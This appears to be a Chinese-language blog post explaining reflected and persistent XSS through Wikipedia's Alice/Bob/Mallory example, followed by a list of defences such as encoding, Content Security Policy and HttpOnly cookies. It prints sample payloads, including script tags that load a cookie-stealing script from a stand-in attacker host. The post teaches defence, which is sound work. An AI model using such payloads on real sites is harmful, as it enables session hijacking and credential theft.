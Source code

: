 ```yaml
---
layout: post
---
```


wiki里讲了两个xss攻击的例子. 第一个是非持续性xss(Non-persistent)，也成为Reflected xss.

## Non-persistent

Alice 经常去一个Blob的网站，且Bob的网站允许Alice使用username/password登录和存储一些敏感信息，例如账单信息
当用户登录的时候Blob会将认证凭据存到Cookie中以供client到server端验证身份。

Mallory发现Bob的网站存在reflected xss 漏洞, 过程如下:

* 当在搜索页面，Mallory输入一些词汇并点击提交按钮, 如果找不到结果blob的页面会提示这个词汇 Not found, 此时的页面URL为`http://bobwebsite.com?q=her input term`

* 对于一个正常的搜索，例如搜索`pupples`, 如果该搜索页面未找到的话会提示`pupples not found`, 此时的url为`http://bobwebsite.com?q=pupples`

* 然而，当Mallory提交一个正常的搜索请求，例如`<script type='text/javascript'>alert('xss');</script>`, 出现了下面几个现象: 1. 一个弹窗出现，弹出"xss", 2.伴随着弹窗的同时页面显示`<script type='text/javascript'>alert('xss');</script> not found` 3. 此时的url为`http:blobwebsite.com?q=<script%20type='text/javascript'>alert('xss');</script>`


在发现了存在xss漏洞之后，Mallory手写了一个url: `http:blobwebsite.com?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`, 看起来像一个正常的url，但是decode其中的hex字符之后，真实的url如下:`http:blobwebsite.com?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>`。

接着Mallory将该地址通过email的形式发送给一些使用blobwebsite的成员，并且还告诉他们一些诱导性信息，例如:  [点击查看可爱的小狗狗](https://www.google.com/search?q=cute+puppy&tbm=isch&tbo=u&source=univ&sa=X&ved=0ahUKEwjB587hru_TAhUV3GMKHXgJAO4QsAQIIg&biw=1263&bih=703)

当该email被喜欢小狗的alice打开的时候，即使Alice比较有心的查看了url之后恐怕也不会过度起疑。但是当Alice随手点开这条链接之后会看到`pupples not found`以及伴随着的Mallory脚本的执行。(此时便触发了xss攻击行为)。 这时候Mallory的脚本几乎可做任何事情, 包括将Alice的登录凭证Cookie发送给Mallory的服务器。 拿到登录凭证之后Mallory便可以伪装成Alice登录到blobwebsite，并且查看其敏感信息。更加过分一些可以更改掉Alice的密码，让Alice无法登陆。


xss攻击的预防可以用下面几种方法

* 通过合适的编码进行检查搜索输入中含有的HTML敏感数据，例如`script`,`object`,`embed`,`link`,`iframe`
* web server可以重定向无效的请求。 例如当Alice的请求含有xss的链接后，server端进行检查之后直接重定向到安全页面
* web server可以检测同时登陆行为，并且可以将登陆凭据设置为过期.
* web server检测到同时登陆来自不同ip后将client的session设置为过期
* 网站可以只显示部分信用卡号码(意味敏感信息数据即使登陆后也不能直接查看完整信息，需要二次验证)
* 网站可以在用户更改注册信息时，例如密码，需要再次输入密码。
* 网站可以使用[Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)(内容安全策略) 来指定允许加载的脚本。
* 告诉用户不要随意点击不可信链接
* 设置Cookie为`HttpOnly` 来阻止JavaScript访问Cookie


## Persistent attack

接着上面的例子，Non-persistent需要Mallory发email给注册了Blob网站的用户，受影响的仅限于邮件内用户。这时候Mallory换了一种思路，使用持续性xss来影响更大范围内的用户。

首先Mallory注册了一个Blob网站的账号。

Mallory发现Blob的网站存在一个xss漏洞: 如果你在一个帖子下面留言，那么评论里将显示你输入的任何内容. 如果输入中含有html标签，评论区也会显示相应的标签和运行其中的脚本。

接着Mallory在一个帖子下面发了一条留言`I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">`

让其他人(不只是作者)加载该页面时Mallory的脚本都会被执行，并且偷取他们的Cookie发送到Mallory的服务器。

之后Mallory就可以使用这些登录凭据来做任何事情了。


其实xss的种类有很多种，其中原理是将恶意脚本注入页面内，上面的xss防范方法对于很多情况下都适用。
